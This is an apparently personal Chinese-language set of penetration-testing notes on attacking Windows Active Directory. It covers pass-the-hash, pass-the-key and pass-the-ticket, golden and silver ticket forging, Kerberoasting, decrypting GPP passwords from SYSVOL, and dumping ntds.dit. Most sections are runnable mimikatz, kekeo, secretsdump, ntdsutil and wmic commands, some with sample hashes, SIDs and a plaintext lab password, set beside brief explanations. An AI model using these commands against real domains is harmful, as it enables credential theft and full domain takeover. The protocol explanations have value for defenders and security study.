








.....
<!-- more -->
## Pass the Hash (PTH hash传递攻击, 即 Mimikatz hash注入 )

在windows系统中,系统通常不会存储用户登录密码,而是存储密码的哈希值. 

在我们远程登录系统的时候,实际上向远程传递的就是密码的hash值。

当攻击者获取了存储在计算机上的用户名和密码的hash值的时候(PWDUMP7等)

他虽然不知道密码值,但是仍然可以通过直接连接远程主机,通过传送密码的hash值来达到登录的目的。
    
工具: 

    a. Metasploit - exploit/windows/smb/psexec (XP,2003)
    b. xfreerdp (2012r2 http://www.freebuf.com/articles/system/15757.html Hash传递攻击登陆Windows2012远程桌面)
        微软在2014年发布了KB2871997和KB2928120两个补丁,用来阻止域内主机本地用户的网络登录,本地用户的PTH方式已经死掉
    然而 , mimikatz实现了在禁用NTLM的环境下仍然可以远程连接。
    c.hash injection 
        mimikatz # privilege::debug
        mimikatz # sekurlsa::pth /user:administrator /domain:workgroup /ntlm:d6e1371929886ec1be0b0cf4b101f289 /run:c:\windows\system32\cmd.exe
	(sekurlsa::pth 中的pth 即Pass the Hash)

## Pass The Key (OverPass-the-Hash)

当系统安装了KB2871997补丁且禁用了NTLM的时候，那我们抓取到的ntlm hash

也就失去了作用，但是可以通过pass the key的攻击方式获得权限

    mimikatz "privilege::debug" "sekurlsa::ekeys" 获取用户的aes key
    mimikatz "privilege::debug" "sekurlsa::pth /user:用戶a /domain:test.local /aes256:f74b379b5b422819db694aaf78f49177ed21c98ddad6b0e246a7e17df6d19d5c" 注入aes key
	
若dir 查看不了服务器 (测试2008r2域服务器) 

查看mimikatz的相关资料发现如下信息:

    ntlm hash is mandatory on XP/2003/Vista/2008 and before 7/2008r2/8/2012 kb2871997 (AES not available or replaceable) ; AES keys can be replaced only on 8.1/2012r2 or 7/2008r2/8/2012 with kb2871997, in this case you can avoid ntlm hash.
    
根据提示，尝试在系统安装补丁kb2871997后继续测试
安裝 : https://www.microsoft.com/en-us/download/details.aspx?id=42765 	
之后可以用\\计算机名的方式通过远程共享查看目标机器(ps:这里必须要使用计算机名进行连接，会爆密码错误。  不要用win10测试，win10机器测试会在一分鐘后重啓 ,)
(如果获取的散列是NTLM，则Kerberos凭证加密方法是RC4。如果散列加密方法为AES，则Kerberos票使用AES进行的加密。)
	
## Pass the Ticket (票据传递攻击PtT)


简义 

    知道用户的ntlm值，由kekeo生成TGT票据，之后导入票据即可
    
与PtH情况类似,但PtT使用的是Kerberos票据,而不是NT哈希

https://github.com/gentilkiwi/mimikatz/wiki/module-~-kerberos

在微软活动目录中颁发的TGT是可移植的。由于Kerberos的无状态特性,TGT中并没有关于票据来源的标识信息。

这意味着可以从某台计算机上导出一个有效的TGT,然后导入到该环境中其他的计算机上。

新导入的票据可以用于域的身份认证,并拥有票据中指定用户的权限来访问网络资源。   

这种特别的攻击方法被称为"pass-the-ticket"攻击。



拿到了域控权限,在上面就可以很容易的获得krbtgt的Hash值,再通过mimikatz即可生成任意用户任何权限的Ticket,也就是Golden Ticket

考虑到mimikatz的pth功能需要本地管理员权限，所以mimikatz也提供了不需要管理员权限的解决方法Pass-The-Ticket

Pass-The-Ticket需要用到gentilkiwi开源的另一款工具kekeo : https://github.com/gentilkiwi/kekeo

执行后生成票据TGT_test1@TEST.LOCAL_krbtgt~test.local@TEST.LOCAL.kirbi : 

    kekeo "tgt::ask /user:test1 /domain:test.local /ntlm:7ECFFFF0C3548187607A14BAD0F88BB1"

导入票据：

    kekeo "kerberos::ptt TGT_test1@TEST.LOCAL_krbtgt~test.local@TEST.LOCAL.kirbi"
	
以上3种:

    hash传递攻击(PtH):抓住哈希并使用它来访问资源。用户更改帐户密码之前有效。
    凭证传递攻击(PtT):抓取Kerberos凭证，并且使用它进行访问资源。攻击有效期是在票证有效期之内(一般为7天)。
    超hash传递攻击(OPtH / PtK):使用密码哈希来获取Kerberos凭证。用户更改帐户密码之前，哈希才有效。

## Golden Ticket (黄金票据)

简义 : 在拥有普通域用户权限和 krbtgt账号的hash的情况下,获取域管理员权限。
	
发生在上面的过程3,可以伪造TGT(前提是获取krbtgt账号的口令散列值(hash))，宣称自己是域内任何账号，包括域管或者不存在的用户。
	
由來: 

    Kerberos信任及完全依赖于KDC密码,由于Kerberos协议是无状态的,因此密钥分发中心KDC和票据授予服务TGS并没记录以前的交互信息。
    因此票据授予服务所需使用的全部信息都位于TGT票据中。因为TGT使用krbtgt的密钥加密过,
    理论上讲网络上只有两方能够解密TGT:         
        颁发票据的KDC和接受票据并创建访问网络资源的服务票据的票据授予服务TGS。
        这种情况让krbtgt成为系统中最重要的密码。最终结果是只要TGT被krbtgt账户密码正确地加密,TGT中的所有信息都是可信的。

如果攻击者能够攻陷KDC和提取krbtgt散列值(hash)。然后利用这些有限信息,攻击者能够为委托人principal生成任意的TGT。

    1. 首先,黄金票据是全功能的TGT。也就意味着万能票据可用于Kerberos认证的任何服务。票据授予服务盲目地相信TGT中的信息,然后处理TGT并颁发服务票据。
    内存中插入黄金票据并不需要提升权限。而且默认情况下,黄金票据的有效期是10年。

    2. 其次,　黄金票据可以用来绕过当前Kerberos有关加密策略的要求。
    例如,可以使用DES或RC4加密算法创建一个TGT,即使该域明确支持AES,禁止使用DES或RC4。
    此情况会产生一个有趣的现象: TGT使用DES加密而服务票据使用AES加密。
    票据授予服务似乎并不担心TGT,也不拒绝异常行为,因为没有机制让票据授予服务报告关于策略的错误。

    3. 再次,黄金票据并没启用任何高级账户策略的设置。微软添加了一个功能来验证服务票据的请求,以确保已禁用的TGT不能用于获得服务票据。
    然而,该功能的实现存在问题。只有当TGT的寿命超过20分钟时,票据授予服务才会验证TGT的有效性。
    如果TGT的寿命低于20分钟,票据授予服务将直接颁发服务票据,而不去验证TGT的有效性,默认情况下服务票据具有10小时的有效期。
    因为攻击者可以利用Mimikatz工具随心所欲的产生票据,所以攻击者只需清除旧的TGT,再替换为寿命少于20分钟的新票据,轻松突破20分钟的限制条件。

    4. 最终,黄金票据可以被配置成任意用户和任意组的成员。这也可以创建一个票据,票据中任何用户都可以是任意组的成员。
    这可以用来绕过文件服务器或其他应用程序上基于用户组的访问限制。黄金票据中的用户和SID不必在活动目录中真实存在。
    也就意味着可以为域中不存在的用户创建TGT,并仍然可以在TGT生命周期内前20分钟内从票据授予服务获得服务票据。

    5. 所需条件: 
        5.1 krbtgt账户的NT-Hash - 该散列值仅位于域控服务器的活动目录中。所以攻击者必须攻陷域控服务器并提权至管理员权限
        5.2 域账户名称 - 通常是域管理员"domain admin"
        5.3 域名
        5.4 域SID - 可以从域用户的SID或通过sysinternal中psGetsid.exe获得

    6 简单过程:
        6.1 清空缓存证书
	    kerberos::purge  ( or klist purge)
        6.2 手动创建了一张域管理的黄金票据
	    kerberos::golden /admin:administrator /domain:demo.local /sid:S-1-5-21-1239069908-882060383-2558203358 /krbtgt:3f65c6984cbfebdc5f17986d07620afb /ticket:administrator.kirbi.bin
        6.3 使用这张票据 
	    kerberos::ptt administrator.kirbi.bin



        6.4 然后我的低权限本地用户，就被提升到域管理权限
	    kerberos::list
        6.5 利用dcsync功能获取hash,通过DRSR(目录复制服务DRS远程协议)协议，从域控制器获取任何用户的hash
	    lsadump::dcsync /domain:demo.local /user:testwin10  (administrator / testwin7)

		
		
		
## Silver Ticket (白银票据) 

简义 : 发生在上面的过程5，可以伪造TGS(前提是获取服务账号的口令散列值)，宣称自己是域内任何账号，例如域管。

Silver Ticket生成时指定了相关的服务名，因此只能用来访问相应的服务，所以局限性比较大，没有golden ticket好用
    
所需条件(mimikatz生成silver ticket)

    1. /domain
    2. /sid			( S-1-5-21-1239069908-882060383-2558203358-500 注意:不要後面的-500  )
    3. /target:域控全称
    4. /service:目标服务器上面的kerberos服务，此处为cifs
    5. /rc4:域控的计算机账户ntlm hash
    6. /user:要伪造的用户名(可以不存在也可是存在的)
    7. mimikatz.exe "kerberos::golden /domain:域 /sid:SID /target:域全称 /service:要访问的服务 /rc4:NTLM /user:silver /ptt"即可生成并导入Silver Ticket


常用的服务名有以下:
```
服务名称					同时需要的服务
WMI						HOST、RPCSS
PowerShell Remoting		HOST、HTTP
WinRM					HOST、HTTP
Scheduled Tasks			HOST
Windows File Share		CIFS
LDAP					LDAP
Windows Remote Server	RPCSS、LDAP、CIFS
```

用法

    kerberos::golden /domain:demo.local /sid:S-1-5-21-1239069908-882060383-2558203358 /target:owa2010dc.demo.local /service:cifs /rc4:aac6185241728f7685c8d50c61573b75 /user:silver /ptt
	(/rc4:aac6185241728f7685c8d50c61573b75 這裏我用的是owa2010dc$机器賬戶的NTLM hash

			
			
## Kerberoast (Kerberos TGS服务票据(Service Ticket)离线爆破)
简义 : 发生在上面的过程3,4, 目标的服务账户的服务器主体名称(SPN)请求一个Kerberos服务票据 (TGS) 。

这里会采用一个有效的用户认证票据(TGT)来请求一个或几个运行在服务器上的目标服务票据。

域控不会检测用户是否真正连接到了这些资源上(即使用户可能真的有权限访问)。

域控会在活动目录中查找SPN并且用SPN关联的用户账户把票据进行加密，以此赋予用户访问服务的权限。

请求的Kerbero服务票据的加密类型是 RC4_HMAC_MD5, 这意味着服务账户的NTLM密码哈希会被用来加密服务票据。

所以Kerberoast能够通过尝试不同的NTLM哈希来解开kerberos票据，一旦票据被成功解开，它的密码也就到手了。
(获得服务票据不需要提权，同时也不会发送数据到目标机器。)
	
	https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py
		python tgsrepcrack.py wordlist.txt sql.kirbi
	
## Kerberoasting - Kerberoast攻击的另一种姿势

我们通常不关心基于主机的SPN，因为计算机的机器帐户密码默认是随机的，每30天更换一次。

但是，请记住，也可以为域用户帐户注册任意的SPN。

一个常见的例子就是一个服务账户管理着多个MSSQL实例;此用户帐户注册的每个MSSQL实例都有一个<MSSQLSvc/HOST:PORT> 这样的SPN，

这个SPN存储在用户的serviceprincipalname属性里.如果我们有一个为域用户帐户注册的任意SPN，

那么该用户帐户的明文密码的NTLM哈希值就将用于创建服务票证	

注意的是： 任何具有服务主体名称SPN的域用户帐户都可以被该域中任何用户请求该SPN的TGS，

从而允许攻击者离线破解服务帐户的明文密码！这显然取决于一个可破解的服务帐户明文密码的复杂度
    
**老套的"Kerberoasting攻击姿势**
	
    给出的利用方法或工具包是使用工具集的组合来请求票证，并从内存中提取(使用Mimikatz)票证，然后将它们转换为可破解的格式。
	
一般来说，整个过程如下：

    a. 使用Tim的GetUserSPNS.ps1脚本或者Sean的Find-PSServiceAccounts.ps1脚本或PowerView的"Get-NetUser -SPN"来枚举域帐户的SPN。
    枚举域帐户的SPN :  
    > * GetUserSPNS.ps1 - https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1
		PS C:\Users\Administrator\Desktop\kerberoast> . .\GetUserSPNs.ps1
			ServicePrincipalName : kadmin/changepw
			Name                 : krbtgt
			SAMAccountName       : krbtgt
			MemberOf             : CN=Denied RODC Password Replication Group,CN=Users,DC=demo,DC=local
			PasswordLastSet      : 9/13/2016 11:37:59 AM
			ServicePrincipalName : test/test
			Name                 : testwin10
			SAMAccountName       : testwin10
			MemberOf             :
			PasswordLastSet      : 1/12/2018 3:00:22 PM
    > * PowerView 的 Get-NetUser -SPN - https://github.com/PowerShellMafia/PowerSploit/blob/5690b09027b53a5932e42399f6943e03fa32e549/Recon/PowerView.ps1#L2087-L2089
		PS C:\Users\Administrator\Desktop\PowerSploit\Recon> Get-NetUser -spn
			objectsid              : S-1-5-21-1239069908-882060383-2558203358-502
			iscriticalsystemobject : True
			samaccounttype         : 805306368
			objectcategory         : CN=Person,CN=Schema,CN=Configuration,DC=demo,DC=local
			objectclass            : {top, person, organizationalPerson, user}
			logoncount             : 0
			lastlogon              : 1/1/1601 8:00:00 AM
			serviceprincipalname   : kadmin/changepw
			adspath                : LDAP://CN=krbtgt,CN=Users,DC=demo,DC=local
			dscorepropagationdata  : {1/12/2018 6:32:42 AM, 9/13/2016 4:06:37 AM, 9/13/2016 3:53:08 AM, 1/1/1601 12:00:00 AM}
			distinguishedname      : CN=krbtgt,CN=Users,DC=demo,DC=local
			....

    
    b. 请求这些特定的SPN的 TGS可以使用Windows内置的工具setspn.exe或者在PowerShell中调用.NET的
		System.IdentityModel.Tokens.KerberosRequestorSecurityToken类。
	
    c. 使用Mimikatz的kerberos::list/export命令从内存中提取这些票证，并设置可选的base64导出格式。
		然后下载票据，或者将base64编码的票证拖到攻击者的机器上进行解码。
    d. 使用Tim的tgsrepcrack.py开始离线破解密码:
		https://raw.githubusercontent.com/nidem/kerberoast/master/tgsrepcrack.py
		pip install requests-kerberos,kerberos-sspi
		import kerberos 改成 import kerberos_sspi as kerberos
            python tgsrepcrack.py dic.txt file.kirbi
	   或者使用John the Ripper的kirbi2john.py从原始票证中提取可破解的哈希格式：
			python kirbi2john.py *.kirbi > johnkirb.txt
            john johnkirb.txt --wordlist=dic.txt  
    e. xan7r给 Tim的工具集增加了一个分支，他添加了一个autokerberoast.ps1脚本，自动化了上述攻击过程:
	https://raw.githubusercontent.com/xan7r/kerberoast/master/autokerberoast.ps1
		此外，@ tifkin_写了一个Go语言版本的TGS爆破器，比原来的Python版本要快一些。

	
## SYSVOL
在域环境中修改域机器的本地账户密码是个很麻烦的事情

但是微软的GPP(组策略偏好)中提供了一个批量修改本地账户的功能，

可以一次性批量的修改本地账户密码(组策略不仅仅可以用来批量管理密码)。

但是最初却导致了一个问题，就是域管理员在配置GPP的时候，会在SYSVOL这个文件夹中保存当前GPP配置的xml文件，

如果管理员在配置的时候填入了密码，其中就包含了加密了的用户密码(SYSVOL是一个存储域公共文件服务器副本的共享文件夹，

所有的认证用户都可以读取。SYSVOL包括登录脚本，组策略数据，以及其他域控所需要的域数据，这是因为SYSVOL能在所有域控里进行自动同步和共享。)
	
一般sysvol文件的位置是 :
    
    \\<DOMAIN>\\SYSVOL\\<DOMAIN>\\Policies\\

其中的groups.xml(Services.xml、ScheduledTasks.xml、Printers.xml、Drives.xml、DataSources.xml)就可能保存了加密后的本地管理账户密码

(ps:这些文件中并不一定存在密码，因为只有当管理员在配置的时候，在界面的密码框中输入密码之后才会保存(設置計劃任務))

我们可以通过这个powershell的脚本进行解密Get-GPPPassword.ps1
    
    (https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-GPPPassword.ps1)
	. .\Get-GPPPassword.ps1
	Get-GPPPassword
	同样，我们也可以使用Get-GPPPassword.ps1这个脚本在域内自动搜索所有的sysvol中保存的密码并自动解密

若获取不到:
    
    a. 使用了LAPS批量管理域内主机本地管理员帐户 (使用ldapsearch来dump域中的LAPS密码 https://www.anquanke.com/post/id/86502)
	    即 Local Administrator Password Solution : LAPS最大的优点是能够确保每台域内主机有不同的密码，并且定期更换。
    b. 域控安装补丁KB2962486
	    这个补丁禁止在组策略配置中填入密码
    c. 目标不在组策略中使用域控密码
    d. 设置了共享文件夹\SYSVOL的访问权限
		
## ntds.dit (活动目录的数据库文件)
包含有关活动目录域中所有对象的所有信息 及 所有域用户和计算机帐户的密码哈希值。

域控制器(DC)上的ntds.dit文件只能由可以登录到DC的用户访问 。
	
这些组可以默认登录到域控制器:
		
		Enterprise Admins (目录林管理员组)
		Domain Admins(域管理员组)
		Administrators(管理员组)
		Backup Operators(备份操作成员)
		Account Operators(账户管理组)
		Print Operators(打印机操作组)
		
不能登录到域控制器可能 : 

    a. 限制了有权登录到域控制器的组/帐户。
    b. 限制了具有完整活动目录权限的组/帐户，特别是服务帐户。

若帐户登录了域控制器，首先把所有的登录凭证全部获取到本地:
    
    1. MIMIKATZ从域控上面抓取到所有账户信息:
        mimikatz # lsadump::lsa /inject exit
        or 保存到mimikatz.log:
        mimikatz # log
        mimikatz # privilege::debug
        mimikatz # lsadump::lsa /inject
        
    2.使用MIMIKATZ转储LSASS内存(获取域管理员凭据)
        mimikatz # sekurlsa::minidump c:\temp\lsass.dmp
        mimikatz # sekurlsa::logonpasswords
    3. 使用任务管理器转储LSASS内存(获取域管理员凭据)
		一旦LSASS被转储，mimikatz就可以对lsass.dmp进行提取
		右鍵lsass.exe : Create Dump File
    4. 用NTDSUTIL创建媒体安装集(IFM) (用于抓取NTDS.DIT文件)
	    NTDSUtil一个本地运行的针对活动目录数据库(ntds.dit)的命令，并且允许为DCPromo准备IFM集。
        IFM是用于DCPromo命令中”从媒体安装”这一过程的，所以，在配置域控时就不需要通过网络从其他域控拷贝数据。
        并且也会在c:/temp目录下生成的一份NTDS.dit附件。
            ntdsutil "ac i ntds" "ifm" "create full c:\windows\temp\temp" q q
        創建了temp目錄，下面会生成 ntds.dit 和 SYSTEM / SECURITY
    5. 从NTDS.DIT文件(和注册表系统配置单元)转储活动目录域凭据
	    需要 ntds.dit 和 system.hive (由第4步得到)
	    https://github.com/CoreSecurity/impacket/blob/master/examples/secretsdump.py (only linux): 
		-> python secretsdump.py -ntds /root/Desktop/temp/Active Directory/ntds.dit -system /root/Desktop/temp/registry/SYSTEM LOCAL
		 -> 
			demo.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24:::
			Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
			OWA2010DC$:1000:aad3b435b51404eeaad3b435b51404ee:aac6185241728f7685c8d50c61573b75:::
	krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3f65c6984cbfebdc5f17986d07620afb:::
	OWA2010$:1103:aad3b435b51404eeaad3b435b51404ee:d51220f5659cd982fb3fbe4169093181:::
	or -> https://github.com/zcgonvh/NTDSDumpEx/releases
		NTDSDumpEx.exe -d ntds.dit -o hash.txt -s system.hiv 
        进一步从NTDS.DIT获取详细的信息:
	        https://github.com/libyal/libesedb/releases
	        $ ./configure
	$ make
	        $ sudo make install
	$ sudo ldconfig
	        root@kali2:~/Desktop/temp# /usr/local/bin/esedbexport -m tables "/root/Desktop/temp/Active Directory/ntds.dit"  
		    (ntds.dit中提取出表，20分鐘，两个重要的表为:datatable以及link_table，他们都会被存放在./ntds.dit.export/文件夹中.)
	    使用ntdsxtract提取域中信息，一旦表被提取出来，很多python工具可以将这些表中的信息进一步提取，比如ntdsxtract就可以完美进行。
	        https://github.com/csababarta/ntdsxtract.git
	        root@kali2:~/Desktop/ntdsxtract-master# python dsusers.py /root/Desktop/temp/ntds.dit.export/datatable.3 /root/Desktop/temp/ntds.dit.export/link_table.5 output --syshive /root/Desktop/temp/registry/SYSTEM --passwordhashes --pwdformat ocl --ntoutfile ntout --lmoutfile lmout |tee all_user_info.txt
	        root@kali2:~/Desktop/ntdsxtract-master# python dscomputers.py /root/Desktop/temp/ntds.dit.export/datatable.3 computer_output --csvoutfile all_computers.csv
            
    6. 可创建和使用GOLDEN TICKET
    7. 卷影复制(VSS)
        ntds.dit我们是没法直接进行复制拷贝的，会提示文件已被占用，这个时候我们可以通过windows提供的卷影复制功能来复制被进程占用的文件(xp和server 2003以上都存在此功能)
        1.wmic /node:AD /user:PENTEST\Administrator /password:123qwe!@# process call create "cmd /c vssadmin create shadow /for=c: 2>&1 > c:vss.log"
        2.wmic /node:AD /user:PENTEST\Administrator /password:123qwe!@# process call create "cmd /c copy 卷影ID/Windows/NTDS/NTDS.dit C:/windows/temp/NTDS.dit 2>&1"
  
    8. 其他 - 转储活动目录数据库(ntds.dit)凭证的方法总结
		How Attackers Dump Active Directory Database Credentials
			https://adsecurity.org/?p=2398
		[译]转储活动目录数据库凭证的方法总结 
			http://drops.xmd5.com/static/drops/pentesting-12020.html
			之前两篇关于如何转储 AD 数据库凭证的文章： 
				a. 攻击者如何从一个域控制器中读取活动目录数据库(NTDS.DIT)(https://adsecurity.org/?p=451)
				b. 在 Active Directory 域中获得管理员权限的攻击方法(https://adsecurity.org/?p=2362  [译]https://xianzhi.aliyun.com/forum/topic/115)

	8-0x00 远程执行命令方式
		有几种不同的方式可以在域控制器上远程执行命令,假设它们已经有了相应的执行权限。最可靠的远程执行方法包括两种 PowerShell(利用 WinRM )和 WMI。

		WMI
		Wmic /node:COMPUTER/user:DOMAIN\USER /password:PASSWORD process call create "COMMAND"
			
		PowerShell (WMI)
		Invoke-WMIMethod -Class Win32_Process -Name Create –ArgumentList $COMMAND –ComputerName $COMPUTER -Credential $CRED
			
		WinRM
		winrs –r:COMPUTER COMMAND
			
		远程 PowerShell
		Invoke-Command –computername $COMPUTER -command { $COMMAND}
		New-PSSession -Name PSCOMPUTER –ComputerName $COMPUTER; Enter-PSSession -Name PSCOMPUTER
		
	8-0x01 使用 NTDSUtil 创建 IFM 抓取 DC 本地的Ntds.dit文件 (VSS 卷影复制)
		NTDSUtil一个本地运行的针对活动目录数据库(ntds.dit)的命令,并且允许为DCPromo准备IFM集。
		IFM是用于DCPromo命令中"从媒体安装"这一过程的,所以,在配置域控时就不需要通过网络从其他域控拷贝数据。
		IFM集,并且也会在c:/temp目录下生成的一份NTDS.dit附件。
			ntdsutil "ac i ntds" "ifm" "create full c:\windows\temp\temp" q q
		创建了temp目录,下面会生成 ntds.dit 和 SYSTEM / SECURITY
		这个命令也可以通过 WMI 或 PowerShell 远程执行。
			
	8-0x02 使用 VSS 卷影副本远程读取 ntds.dit(通过 WMI or PowerShell 远程管理)
		ntds.dit我们是没法直接进行复制拷贝的,会提示文件已被占用,这个时候我们可以通过windows提供的卷影复制功能来复制被进程占用的文件(xp和server 2003以上都存在此功能)
		a. wmic /node:AD /user:PENTEST\Administrator /password:123qwe!@# process call create "cmd /c vssadmin create shadow /for=c: 2>&1 > c:\vss.log"
		当 VSS 快照完成后,我们就可以从 VSS 中将 NTDS.dit 文件和 注册表中的 System hive 复制到域控制器的 C 盘中。

		b1. wmic /node:AD /user:PENTEST\Administrator /password:123qwe!@# process call create "cmd /c copy 卷影ID\Windows\NTDS\NTDS.dit C:\windows\temp\NTDS.dit 2>&1 > c:\vss2.log"
		b2. wmic /node:AD /user:PENTEST\Administrator /password:123qwe!@# process call create "cmd /c copy 卷影ID\Windows\System32\config\SYSTEM C:\windows\temp\SYSTEM.hive 2>&1 > c:\vss2.log"
